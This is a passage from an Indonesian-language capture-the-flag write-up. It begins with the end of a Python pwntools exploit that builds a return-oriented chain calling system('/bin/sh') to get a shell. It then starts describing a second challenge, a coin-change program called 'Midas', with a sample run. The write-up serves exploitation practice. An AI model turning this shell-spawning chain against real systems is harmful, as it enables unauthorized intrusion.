 ```python
build_road('pwner', list_names[6], str(pop_rdi & 0xffffffff))
build_road('pwner', list_names[7], str((pop_rdi>>32) & 0xffffffff))

build_road('pwner', list_names[8], str(bin_sh_address & 0xffffffff))
build_road('pwner', list_names[9], str((bin_sh_address>>32) & 0xffffffff))

build_road('pwner', list_names[10], str(pop_rsi_r15 & 0xffffffff))
build_road('pwner', list_names[11], str((pop_rsi_r15>>32) & 0xffffffff))

build_road('pwner', list_names[12], str(0))
build_road('pwner', list_names[13], str(0))
build_road('pwner', list_names[14], str(0))
build_road('pwner', list_names[15], str(0))

build_road('pwner', list_names[16], str(system_address & 0xffffffff))
build_road('pwner', list_names[17], str((system_address>>32) & 0xffffffff))

end()

p.interactive()
p.close()
```

![Error](/assets/images/CJFinal-2.png)

:)

<br>
<br>
<br>

## 2. Midas
Midas merupakan soal yang paling saya benci. Soalnya didasari permasalahan _coin change_, dimana kita dapat menentukan koin apa saja yang ada dan nilai yang ingin kita hitung. Programnya akan mencetak banyaknya cara untuk mencapai jumlah yang telah kita tentukan.
```
== MIDAS - How many ways we can make the change? ==

1) Init coins
2) Compute
3) Exit
Choice: 1
Number of coins: 3
Insert nominal 1: 1
Insert nominal 2: 3
Insert nominal 3: 4

1) Init coins
2) Compute
3) Exit
Choice: 2
Insert desired value: 6
We can change 6 with 4 ways

```